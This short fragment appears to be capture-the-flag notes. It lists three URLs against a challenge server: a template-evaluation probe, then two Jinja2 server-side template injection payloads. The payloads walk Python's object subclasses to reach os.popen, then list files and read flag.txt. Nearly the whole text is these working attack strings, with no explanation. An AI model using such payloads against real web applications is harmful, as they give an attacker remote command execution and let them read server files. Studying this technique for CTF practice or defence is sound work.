 http://188.166.173.208:32121/{{100+100}}

http://188.166.173.208:32121/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls *").read()}}


http://188.166.173.208:32121/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}